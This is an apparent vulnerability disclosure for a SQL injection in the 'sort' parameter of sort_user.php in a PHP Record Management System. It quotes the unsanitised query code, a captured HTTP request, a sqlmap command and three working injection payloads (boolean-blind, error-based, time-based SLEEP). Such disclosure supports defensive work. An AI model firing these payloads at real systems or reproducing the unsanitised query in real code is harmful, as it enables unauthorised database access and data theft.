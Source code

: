 ### VUL_AUTHOR:netmanzhang
# Record Management System - SQL Injection on (sort_user.php sort parameter) 
## Vendor Homepage:
https://www.sourcecodester.com/php/5107/record-management-system.html 

Version:V1.0
## Tested on: PHP, Apache, MySQL
## Affected Page:
sort_user.php 

On this page, sort parameter is vulnerable to SQL Injection Attack 
## Source code(Personnel_record_management_system/sort_user.php):
```
$sort=$_POST['sort'];
$name_query=mysqli_query($conn,"select * from school where Name='$sort'")or die(mysqli_error());
$query_row=mysqli_fetch_array($name_query);
```
## Proof of vulnerability(Verify using the sqlmap tool):
### Request:
```
POST /Personnel_record_management_system/sort_user.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Content-Length: 135
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Language: zh-CN,zh;q=0.9
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=52388hjgjeif4bl4r5sqp2bmpm
Origin: http://localhost
Referer: http://localhost/Personnel_record_management_system/emp_profiles_user.php
Upgrade-Insecure-Requests: 1
Accept-Encoding: gzip

filter=&sort=Sort+Personnel+by+School
```
#### -> sqlmap -r 1.txt(above request package) --batch
## Output:
```
---
Parameter: sort (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT - MySQL comment)
    Payload: filter=&sort=Sort Personnel by Schoo' OR NOT 7523=7523#

    Type: error-based
    Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: filter=&sort=Sort Personnel by Schoo' OR (SELECT 8098 FROM(SELECT COUNT(*),CONCAT(0x71766a7171,(SELECT (ELT(8098=8098,1))),0x7178627a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- zzAA

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: filter=&sort=Sort Personnel by Schoo' AND (SELECT 4170 FROM (SELECT(SLEEP(5)))VaGH)-- Lvda
---
```
